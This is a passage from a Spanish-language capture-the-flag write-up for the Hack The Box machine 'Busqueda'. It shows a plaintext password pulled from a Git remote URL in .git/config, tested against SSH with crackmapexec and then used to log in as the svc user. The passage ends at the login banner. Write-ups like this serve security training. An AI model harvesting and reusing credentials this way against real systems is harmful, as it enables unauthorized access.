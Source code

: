 ## Escalada de privilegios

Encontramos credenciales `jh1usoih2bkjaspwe92`

```bash
svc@busqueda:/var/www/app/.git$ cat config 
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
svc@busqueda:/var/www/app/.git$ 
```

Vamos a conectarnos por `ssh` con las credenciales que tenemos

```bash
❯ crackmapexec ssh 10.129.228.217 -u svc -p 'jh1usoih2bkjaspwe92'
SSH         10.129.228.217  22     10.129.228.217   [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.1
SSH         10.129.228.217  22     10.129.228.217   [+] svc:jh1usoih2bkjaspwe92 
```

Nos conectamos

```bash
❯ ssh svc@10.129.228.217
The authenticity of host '10.129.228.217 (10.129.228.217)' can't be established.
ECDSA key fingerprint is SHA256:2IX4mncu1XcUcTBw8Aa8kcZWxeVixqXf/qpnyptPp/s.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.228.217' (ECDSA) to the list of known hosts.
svc@10.129.228.217's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-69-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Aug 14 10:44:14 PM UTC 2023

  System load:                      0.05615234375
  Usage of /:                       80.2% of 8.26GB
  Memory usage:                     49%
  Swap usage:                       0%
  Processes:                        241
  Users logged in:                  0
  IPv4 address for br-c954bf22b8b2: 172.20.0.1
  IPv4 address for br-cbf2c5ce8e95: 172.19.0.1
  IPv4 address for br-fba5a3e31476: 172.18.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.129.228.217
  IPv6 address for eth0:            dead:beef::250:56ff:fe96:3d35


 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro

Expanded Security Maintenance for Applications is not enabled.
```